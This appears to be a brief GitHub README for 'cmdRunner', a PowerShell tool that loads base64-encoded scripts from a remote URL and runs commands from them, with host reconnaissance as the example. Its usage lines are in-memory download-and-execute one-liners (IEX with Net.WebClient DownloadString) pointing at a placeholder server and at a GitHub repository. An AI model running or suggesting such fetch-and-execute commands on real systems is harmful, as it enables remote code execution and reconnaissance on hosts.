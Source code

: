 # cmdRunner

## Usage
1. IEX ((New-Object Net.WebClient).DownloadString('http://your-server/path/to/cmdRunner.ps1'))
2. cmdRunner -Uri http://your-server/path/to/b64/encoded/powershell/script.txt -Command <Command found in script.txt>

## Example
1. IEX ((New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nullg0re/cmdRunner/main/cmdRunner.ps1'))
2. cmdRunner -Uri https://raw.githubusercontent.com/nullg0re/cmdRunner/main/HostRecon.b64.txt -Command Invoke-HostRecon
